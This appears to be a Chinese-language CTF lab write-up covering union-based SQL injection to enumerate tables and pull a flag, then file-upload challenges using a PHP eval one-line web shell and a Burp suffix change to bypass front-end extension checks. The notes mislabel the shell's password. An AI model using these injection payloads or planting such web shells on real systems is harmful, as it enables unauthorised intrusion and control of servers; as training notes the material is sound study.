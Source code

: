 > 接着, 获取库名

![image-20230402112326168](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230402112326168.png)

> 查询数据库, 得到表名(**注意: 因为这个数据库的版本是大于5.0的, 所以才能用information_schemaa 来查**)

```
id = -1 union select table_name,2 from information_schema.tables where table_schema = 'sqli'
```

![image-20230402112832188](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230402112832188.png)

> 同样的放吧得到列名,  然后从表里面拿到 **列里面的数据(flag)**

![image-20230402113327150](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230402113327150.png)



# 文件上传

### uploadfile第一题: 无验证

1. 直接构造一句话木马

```
<?php
<?php @eval($_POST['shell']);?>
?>
```

> 构造的依据话木马的**密码就是a**

2.  因为本关是无验证, 所以说直接上传文件即可

访问提示并拼接url  , 注意检查一下是否正确,(`url可能缺少 斜杆 之类的`)

3. 用蚁剑连接(最好先测试一下, 然后再去添加)

   ![image-20230402213752030](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230402213752030.png)



### uploadfile第二题: JS前端验证

> 本题通过 过滤后缀来达到验证的目的 , 可以右键 **查看源代码**

![image-20230402214127933](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230402214127933.png)

1. 将文件**后缀名修改为允许的后缀**,     之后 **直接**BP**抓包**, 查看并修改后缀

   ![image-20230402214607286](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230402214607286.png)

2. 用中国蚁剑连接就行( **`注意: 连接的地址是 php 文件, 而不是jpg`**)

![image-20230402215457499](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230402215457499.png)

